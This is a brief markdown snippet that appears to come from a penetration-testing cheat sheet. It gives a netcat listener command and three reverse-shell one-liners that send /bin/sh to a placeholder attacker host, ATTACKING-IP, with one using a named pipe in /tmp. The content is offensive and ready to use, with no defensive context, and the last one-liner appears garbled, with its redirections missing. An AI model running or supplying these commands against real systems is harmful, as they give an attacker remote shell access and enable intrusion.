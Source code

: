### Start your listner 
```
nc -lnvp 80
```
```
nc -e /bin/sh ATTACKING-IP 80
/bin/sh | nc ATTACKING-IP 80
rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
```

